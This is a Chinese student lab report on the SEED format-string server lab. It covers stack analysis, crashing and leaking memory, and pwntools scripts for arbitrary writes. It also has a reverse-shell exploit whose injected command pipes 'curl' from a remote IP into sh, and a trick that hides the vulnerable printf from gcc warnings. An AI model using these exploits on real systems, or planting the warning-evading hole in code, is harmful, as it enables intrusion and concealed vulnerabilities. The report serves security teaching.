

# Week3 二进制利用进阶-格式化字符串
`注①：根据文档给出的shellcode可知该实验在i386环境下进行，故报告在Ubuntu20.04下尽量相同环境下完成。`  
`注②：程序根据下方链接中seed官网的代码编译`

## 任务1 编译有漏洞的服务器程序
`gcc -z execstack -o server server.c -m32`  
编译，爆出警告，属于是静态分析（匹配）就能找到的漏洞警告  
这个检测实际是gcc的
```
-Wformat -Wformat-nonliteral -Wformat-security -Wformat-y2k
```
选项干的，相当于`-Wformat=2`  
一般版本是默认开启的，当然也有些奇怪的情况会自动关闭

  

## 任务2 分析漏洞程序的栈结构
`b main`断点后`n`步进和`s`步入到目标printf直接`stack 500`在pwndbg中打出栈的结构（从上往下地址从低到高）：
  


### Question 1
- 1 0xffffc9f0
- 2 0xffffca8c
- 3 0xffffcb30

### Question 2
`0xffffcb30 - 0xffffc9f0 = 320`  
（我用的是 [官网](https://seedsecuritylabs.org/Labs_16.04/Software/Format_String_Server/files/server.c) 的版本，有100的dummy）

## 任务3 崩掉程序
输入一大堆`%s%s%s%s%s%s%s%s%s`就可以崩掉程序，因为栈上的东西不保证都是可读的地址，事实上极大概率不是可读的地址（除非正好有一堆连着初始化了的指针），所以非常容易报段错误（看看21年6月的iphone吧家人们）

因为随便找个格式化字符串的题这段都会崩就不截图了。

## 任务4 泄露程序内存   
### A 泄露任意栈上数据

我们可以用第二问得到的320除字长4得到我们输入的字符串相对va_start的偏移80，但不调试的情况下我们还有更简单的做法。


经典的做法是输入
`AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.`
观察在`41414141`（也就是那四个A）前输出了多少个`.`即可知道格式化字符串在栈上的offset，同时泄露栈上数据
  

### B 泄露任意堆上数据
**说起来为什么.rodata段算heap的数据，很奇怪**
但不管Task名字，任务是泄露secret的内容，只要组合`$[num]%[fmt]`和一个地址就可以了。  
所以写个exp：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    # 0x565559e0是secret的地址，---是四字节对齐， 82是上一个任务算出的偏移80 +8/4
    p.sendline(b'%82$s---'+p32(0x565559e0))
    p.close()
```
  

## 任务5 任意地址写
先按照要求解释接下来用到的一下代码（轮子）：  
`fmtstr_payload`是`pwnlib`的一个函数  
作用是根据格式化字符串在栈上的offset实现自动生成任意地址写payload  
原理就是简单粗暴的`$[num]%[fmt]`和根据需求使用的`%n`, `%hn`, `%hhn`，然后把地址放到对应位置，通过`%[num]c`复写。

当然在不同要求下也可以手动精心构造比`fmtstr_payload`生成的更短更特殊的格式化字符串，因为之前CTF写过太多了就不在这手搓了，既然本题给出了足够的长度，用现成轮子当然简单稳定高效。

因为targert是data段上的，所以也没偏移什么问题，关ASLR下不泄露地址也没关系。

### A 修改指定地址为任意值
### B 修改指定地址为指定值 0x500
### C 修改指定地址为指定值 0xFF990000
三合一exp：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    context.arch = 'i386'
    p.sendline(fmtstr_payload(80, {0x56557008: 0x114514}, write_size='byte'))
    p.sendline(fmtstr_payload(80, {0x56557008: 0x500}, write_size='byte'))
    p.sendline(fmtstr_payload(80, {0x56557008: 0xFF990000}, write_size='byte'))
    p.close()
```
  
 
  

 

## 任务6 注入恶意代码
这步是7的前置，就不再赘述了，和7合并。

## 步骤7 反弹shell

其中攻击exp为：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    context.arch = 'i386'
    sc = asm(shellcraft.connect('vps IP', 1337) + shellcraft.dupsh())
    # 这里的malicious_code不是sc，是pdf中的shellcode改了exec中的内容
    p.sendline(fmtstr_payload(80, {0xffffca8c: 0xffffcb6c}, write_size='byte') + malicious_code)
    p.close()
```
需要做的就是把RA复写为shellcode所在地址，因为本题log会打栈地址，所以可以直接计算出栈地址和shellcode地址的偏移，如果关掉自动输出的话，就需要用格式化字符串泄露一个栈上的指向栈上的指针，然后计算偏移。

我的环境直接用shellcraft或者exp-db里的反弹shell代码都不行，所以还是用老师给的`exec('/bin/sh -c "/bin/rm myfile")`来弹（malicious_code）。  
修改的exec的内容为`curl 106.52.237.196 | sh`长度正好，用这个是因为这是我自己改的your-shell的脚本，适配非常多的*inx系统反弹shell，省去很多调试时间（比如目标机器上并没有nc），当然这个题里用pdf里给出的代码弹也是可以的。  

成功反弹shell的截图：  
  


左上角为攻击机，下方为被攻击的靶机服务器，右上角为接收反弹shell的vps

## 任务8 修复漏洞
根据题目要场景（复读），简单将  
```cpp
printf(msg);
```
改为
```cpp
printf("%s", msg);
```
就可以完成复读同时消除格式化字符串问题了，至于gcc的静态检查，参数个数匹配就可以通过，不会报warning了。

exp还能不能用？显然不行，人脑分析一下`printf("%s", msg)`就知道是当作纯文本输出了，代码甚至贴心的只接收了1499个字节，对1500的缓冲区也不存在obn问题。

但是更有趣的是，我们怎样骗过gcc的静态检查，在不报Warning的情况下仍然编译有漏洞的代码？

我们可以试试很简单却处于学术前沿（这话不是我说的，是某位刚发CCFA的学长说的）的做法：间接调用  
```cpp
...
    // printf(msg);
	int (*func[])(const char * c, ...) = { printf };
	func[0](msg);
...
```
然后发现gcc不报错了，但漏洞还是存在。
  
